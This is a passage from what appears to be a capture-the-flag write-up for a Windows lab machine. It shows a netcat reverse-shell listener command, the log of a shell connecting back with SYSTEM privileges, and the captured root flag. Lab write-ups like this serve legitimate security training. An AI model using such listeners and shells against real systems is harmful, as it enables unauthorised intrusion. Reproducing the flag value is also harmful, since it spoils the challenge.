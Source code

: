 3. Start the listener:
```bash
 rlwrap nc -nlvp 443
```

aand got shell!
```bash
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.165.43] 52938
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32> cd c:\Users\Administrator\Desktop
```
grabbed root flag `e615c5a829daf39951c4fe7b797736fa`

proof
![](MediaFiles/image%2011%201.png)

---